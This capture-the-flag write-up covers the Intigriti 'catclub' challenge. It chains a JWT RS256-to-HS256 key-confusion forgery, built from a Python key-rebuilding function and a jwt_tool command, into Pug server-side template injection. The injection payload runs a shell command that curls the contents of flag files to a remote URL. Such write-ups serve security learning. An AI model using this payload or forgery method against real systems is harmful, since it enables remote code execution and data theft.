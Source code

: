 In the configuration I find the **JWT secret** and notice it uses:

```
RS256
```

When registering an account, the application provides us with a JWT containing the attribute:

```json
{ "username": "<name>" }
```

After analyzing the token, I look into the source code.

### Sanitizer

```js
function sanitizeUsername(username) {
    const usernameRegex = /^[a-zA-Z0-9]+$/;

    if (!usernameRegex.test(username)) {
        throw new BadRequest("Username can only contain letters and numbers.");
    }

    return username;
}
```

I immediately notice that the `username` input is protected, so **no injection here**.

### Router

```js
router.get("/cats", getCurrentUser, (req, res) => {
    if (!req.user) {
        return res.redirect("/login?error=Please log in to view the cat gallery");
    }

    const templatePath = path.join(__dirname, "views", "cats.pug");

    fs.readFile(templatePath, "utf8", (err, template) => {
        if (err) {
            return res.render("cats");
        }

        if (typeof req.user != "undefined") {
            template = template.replace(/guest/g, req.user);
        }

        const html = pug.render(template, {
            filename: templatePath,
            user: req.user,
        });

        res.send(html);
    });
});
```

Here I notice **two important things**:

1. The value of `username` is reflected.
2. It’s reflected inside a **Pug template**, which means we can likely achieve **SSTI** if we can manipulate `username`.

### Token verification

```js
function getCurrentUser(req, res, next) {
    const token = req.cookies.token;

    if (token) {
        verifyJWT(token)
            .then((payload) => {
                req.user = payload.username;
                res.locals.user = req.user;
                next();
            })
            .catch(() => {
                req.user = null;
                res.locals.user = null;
                next();
            });
    } else {
        req.user = null;
        res.locals.user = null;
        next();
    }
}
```

Here I see that the `username` is retrieved **directly from the JWT token**.
So, if I can **modify the JWT username**, I can trigger **SSTI**.

But to do that, I need to **sign a valid JWT**.
The problem: the keys provided in the source code are **not the same** as the ones used by the server (seen in the Dockerfile).

### The trick: RS256 → HS256

To bypass this, I attempt the classic **RS256 to HS256 JWT attack**.

First, I retrieve the **JWK** from:

```
/jwks.json
```

Then, I reconstruct the **RSA public key**:

```python
def rsa_public_key_from_jwk(jwk):
    print(f"[*] Recreating RSA Public Key from JWK...")

    n = base64url_decode(jwk['n'].encode('utf-8'))
    e = base64url_decode(jwk['e'].encode('utf-8'))

    n_int = int.from_bytes(n, 'big')
    e_int = int.from_bytes(e, 'big')

    rsa_key = RSA.construct((n_int, e_int))
    public_key_pem = rsa_key.export_key('PEM')

    with open("recovered_public.key", "wb") as f:
        f.write(public_key_pem)
        if not public_key_pem.endswith(b'\n'):
            f.write(b"\n")

    print(f"[*] Recreated RSA Public Key saved to 'recovered_public.key':\n{public_key_pem.decode()}")
    return
```

### Modifying the JWT

I then use **jwt\_tool** to forge the token:

```
jwt_tool.py <JWT token> -X k -pk recovered_public.key -I -pc username -pv <payload>
```

Where the payload is:

```js
#{function(){
    localLoad = global.process.mainModule.constructor._load;
    sh = localLoad('child_process').exec(
        'curl https://catclub-0.ctf.intigriti.io/?flag=$(cat /flag* | base64)'
    )
}()}
```

(adapted depending on the case).

Finally, I replace my cookie with this **malicious JWT**.

When I visit the `/cats` page, I retrieve:

```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```